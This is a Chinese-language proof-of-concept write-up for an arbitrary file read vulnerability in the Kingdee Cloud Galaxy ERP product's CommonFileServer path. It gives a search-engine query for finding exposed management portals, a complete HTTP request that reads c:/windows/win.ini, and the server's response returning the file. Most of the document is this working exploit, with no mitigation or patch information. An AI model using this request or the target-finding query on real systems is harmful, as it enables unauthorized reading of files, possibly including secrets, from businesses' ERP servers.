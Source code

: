 # 金蝶云星空 CommonFileserver 任意文件读取漏洞

## 1.漏洞描述

金蝶云星空是金蝶集团面向大中型企业的一个核心产品，聚焦多组织，多利润中心的企业。它以“开放、标准、社交”三大特性为数字经济时代的企业提供开放的ERP云平台。该产品CommonFileServer存在任意文件读取漏洞。

## 2.搜索语法

```plain
title="金蝶云星空 管理中心"
```

## 3.漏洞复现

```plain
GET /CommonFileServer/c:/windows/win.ini HTTP/1.1
Host: 127.0.0.1
accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

响应包如下：

```plain
HTTP/1.1 200 OK
Cache-Control: private
Pragma: public
Content-Length: 167
Content-Type: application/x-zip-compressed; charset=utf-8
Server: Microsoft-IIS/10.0
Content-Disposition: attachment; filename=win.ini
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Date: Thu, 13 Jun 2024 13:38:51 GMT

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
CMCDLLNAME32=mapi32.dll
CMC=1
MAPIX=1
MAPIXVER=1.0.0.1
OLEMessaging=1
```

![image-20240613214127436](D:\py\POC\金蝶云星空 CommonFileserver 任意文件读取漏洞\image-20240613214127436.png)